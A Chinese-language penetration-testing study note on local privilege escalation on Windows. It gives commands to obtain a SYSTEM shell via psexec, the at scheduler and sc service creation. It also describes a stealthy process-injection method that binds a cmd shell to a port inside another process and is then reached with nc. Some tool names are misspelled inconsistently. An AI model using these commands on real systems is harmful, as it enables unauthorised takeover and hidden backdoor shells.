

# 用户提权



## 0x01 本地提权
### 相关概念
+ 已实现本地低权限账号登录(通过远程溢出, 或直接账号密码登录)
+ 系统获取更高权限 (实现对目标进一步控制)

#### 系统账号之间权限隔离 
> 操作系统安全的基础
+ 用户空间的隔离
+ 用户权限的隔离

#### 系统账号(SYSTEM)
+ 用户账号登陆时获得权限令牌
+ 服务账号无需用户登录已在后台启动服务

#### 提取目标
+ Windows(user -> Administrator -> System)

注: Administrator包含user所有的权限, System账号与Administrator的权限是交集关系.

+ Linux(user -> root)

### 提权Windows system账号
```
# 使用套件
Syslnternal Suite 
    https://learn.microsoft.com/en-us/sysinternals/    
    psexec -i -s -d cmd 
               
# 老系统如xp可用at, 定时执行程序 
at 19:39 /interactive cmd                     
                 
sc Create syscmd binPath= "cmd /K start" type= own type= interact
或  
sc start syscmd
```

## 0x02 注入进程提权
> 隐蔽, 任务栏看不到进程
+ pinjector.exe
下载地址: http://www.tarasco.org/security/Process_Injector/（**注意：该站点可能已失效**）

```
pinjrvyot.exe -l

pinjrvyot.exe -p <pid> cmd <port>

nc -nv ip port
```
